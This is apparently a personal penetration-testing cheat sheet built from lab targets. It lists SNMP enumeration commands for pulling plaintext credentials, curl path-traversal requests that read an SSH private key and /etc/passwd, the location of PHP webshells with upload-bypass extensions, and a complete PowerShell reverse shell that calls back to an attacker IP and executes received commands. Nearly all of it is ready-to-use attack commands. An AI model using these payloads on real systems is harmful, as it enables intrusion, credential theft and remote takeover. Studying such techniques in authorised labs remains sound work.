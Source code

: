 

### SNMP

```
snmp-check 192.168.106.149 
```
cmd to get plaintext creds
```
snmpwalk -v1 -c public 192.168.106.149 NET-SNMP-EXTEND-MIB::nsExtendOutputFull
```
cmd to get creds also
```
snmpwalk -v1 -c public 192.168.106.149 NET-SNMP-EXTEND-MIB::nsExtendObjects 
```

nmap scripts to use 
```
nmap --script "snmp* and not snmp-brute" <target>
```
refer this link
https://hacktricks.boitatech.com.br/pentesting/pentesting-snmp 




### LFI
#### CURL
USE FOR reading ssh keys for LFI
```
curl http://mountaindesserts.com/meteor/index.php?page=../../../../../../../../../home/offsec/.ssh/id_rsa
```
ALSO TRY
```
curl http://192.168.50.16/cgi-bin/%2e%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd
```



### BASE64 DECODE
```
echo "base64cmd" | base64 -d
```



### WEBSHELLS
php webshells can be found at **/usr/share/webshells/php/**


php extensins to try 
```
.phps .php7 .phtml
```



#### PS ENCODED SHELL
```
$Text = '$client = New-Object System.Net.Sockets.TCPClient("192.168.45.175",4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()'
```
